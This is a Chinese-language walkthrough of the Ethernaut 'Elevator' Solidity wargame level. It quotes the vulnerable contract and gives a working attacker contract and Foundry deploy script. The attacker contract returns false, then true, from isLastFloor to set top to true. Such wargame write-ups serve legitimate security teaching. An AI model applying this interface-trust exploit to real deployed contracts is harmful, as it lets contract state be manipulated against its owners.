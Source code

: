 # Level 11 - Elevator

## 題目
[Elevator](https://ethernaut.openzeppelin.com/level/0x6DcE47e94Fa22F8E2d8A7FDf538602B1F86aBFd2)

### 通關條件
這台電梯會讓你到不了頂樓對吧？

### 提示
- 有的時候 Solidity 不是很遵守承諾
- 我們預期這個 Elevator(電梯) 合約會被用在一個 Building(大樓) 合約裡

### 合約內容
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Building {
    function isLastFloor(uint256) external returns (bool);
}

contract Elevator {
    bool public top;
    uint256 public floor;

    function goTo(uint256 _floor) public {
        Building building = Building(msg.sender);

        if (!building.isLastFloor(_floor)) {
            floor = _floor;
            top = building.isLastFloor(floor);
        }
    }
}
```
## 解題
這題的目標是要讓電梯到達頂樓，也就是讓第 9 行的 `top` 等於 true
可以在第 17 行看到 `top` 會透過 `isLastFloor(floor)` 去判斷是否到頂了，而 `isLastFloor(floor)` 在第 5 行寫下它的介面了，這個 function 會接收一個 `uint256` 並回傳 `bool`。所以我們只要實作這個 function 就好了。

但是題目中呼叫 `isLastFloor(floor)` 的地方有兩處，15 行跟 17 行：
```solidity=12
    function goTo(uint256 _floor) public {
        Building building = Building(msg.sender);

        if (!building.isLastFloor(_floor)) {
            floor = _floor;
            top = building.isLastFloor(floor);
        }
    }
```
`goTo(uint256 _floor)` 的流程：
1. 用 `msg.sender` 建立一個 `Building` 合約
2. 呼叫 `!isLastFloor(_floor)` 做判斷，回傳要是 `False` 才會通過判斷
3. 再次呼叫 `isLastFloor(_floor)`，這次要是 `True` 我們才可以讓 `top = true` 並通關

也就是說，這題的挑戰是如何讓 `isLastFloor(_floor)` 對兩次的呼叫給不同的回應。
其實作法很簡單，只需要多宣告一個狀態變數紀錄上次回傳的值就好；這樣就可以知道下次要換另一個值回傳，攻擊合約如下：
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.0;

import "forge-std/Script.sol";
import "../src/Ethernaut Challenge/11_Elevator.sol";

contract ExploitScript is Script {

    function run() external {
        vm.startBroadcast();

        ElevatorAttacker elevatorAttacker = new ElevatorAttacker();
        elevatorAttacker.attack();

        vm.stopBroadcast();
    }
}

contract ElevatorAttacker {
    Elevator level11 = Elevator(your_challenge_address);
    bool public floor = true;

    function attack() public{
        level11.goTo(0);
    }

    function isLastFloor(uint256 _floor) external returns (bool) {
        floor = !floor;
        return floor;
    }
}
```